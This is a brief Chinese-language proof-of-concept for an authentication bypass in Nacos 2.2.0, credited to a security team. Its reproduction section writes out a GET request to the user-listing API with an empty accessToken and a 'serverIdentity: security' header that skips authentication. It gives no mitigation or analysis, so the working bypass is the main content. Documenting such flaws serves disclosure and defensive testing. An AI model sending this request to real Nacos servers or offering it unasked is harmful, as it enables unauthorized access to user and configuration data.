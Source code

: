 # Nacos默认配置未授权访问漏洞和2.2.0绕过

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Nacos默认配置未授权访问漏洞和2.2.0绕过



# **0x01 影响版本**

```
Nacos2.2.0
```

# **0x02 漏洞复现**

```
//GET请求
127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9&search=accurate&accessToken

//设置请求头
serverIdentity: security
```

![Untitled](image/Untitled.png)